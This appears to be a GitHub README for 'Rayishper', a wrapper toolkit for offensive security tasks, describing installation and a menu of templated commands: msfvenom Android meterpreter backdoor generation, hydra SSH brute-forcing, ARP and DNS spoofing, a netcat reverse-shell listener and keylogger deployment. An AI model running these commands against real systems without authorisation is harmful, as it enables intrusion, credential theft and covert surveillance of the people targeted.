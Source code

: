 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
```

```bash
cd rayishper
```

## Make the script executable:
```bash
chmod +x rayishper.py
```

## Install the required dependencies:
```bash
sudo apt-get update
```
```bash
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
```
**Ensure that all tools used in the script are correctly installed and accessible in your PATH.**

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

- **Python-3:** The core programming language used in the script.
- **Metasploit Framework:** For payload generation, reverse shell listeners, and exploitation.
- **nmap:** For network scanning and discovery.
- **Hydra:** For brute-forcing SSH logins.
- **Tcpdump:** For packet sniffing and network analysis.
- **Aircrack ng:** For wireless network cracking.
- **John the Ripper:** For password cracking.
- **Social Engineering Toolkit (SET):** For social engineering attacks.

## Usage
## To run Rayishper:
```bash 
./rayishper.py 
 ```

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.

Command: 
```bash 
python3 VF685.py
```

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.

Command:
```bash 
 python3 keylog.py
```

## Payload Creation
Description: Generate a custom Android payload using Metasploit.

Command: 
```bash 
msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}
```

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.

Command: 
```bash
hydra -l {username} -P {wordlist} ssh://{target_ip}
```

## Network Scanning
Description: Scan a target IP for open ports and services.

Command: 
```bash
nmap -sV {target_ip}
```

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.

Command: 
```bash
sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}
```

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.

Command: 
```bash
nc -lvnp {lport}
```

## DNS Spoofing
Description: Spoof DNS responses on a network.

Command: 
```bash
sudo dnsspoof
```

## License
This project is open-source and available under the [MIT License.](https://opensource.org/license/mit)
